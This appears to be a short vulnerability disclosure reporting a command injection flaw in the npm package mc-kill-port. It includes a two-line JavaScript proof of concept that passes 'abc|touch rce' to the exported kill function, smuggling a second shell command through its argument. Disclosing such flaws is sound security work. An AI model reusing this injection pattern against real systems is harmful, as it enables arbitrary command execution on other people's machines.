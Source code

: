  We find a potential command injection vulnerability from from [mc-kill-portmc-kill-port](https://www.npmjs.com/package/mc-kill-port).
The bug is introduced because package-exported method fails to sanitize its parameter and let it flow into a sensitive command execution API.

The following code is the proof of concept.

```javascript
 const kill = require("mc-kill-port");                                                                                                                                                                   
 kill("abc|touch rce")
```
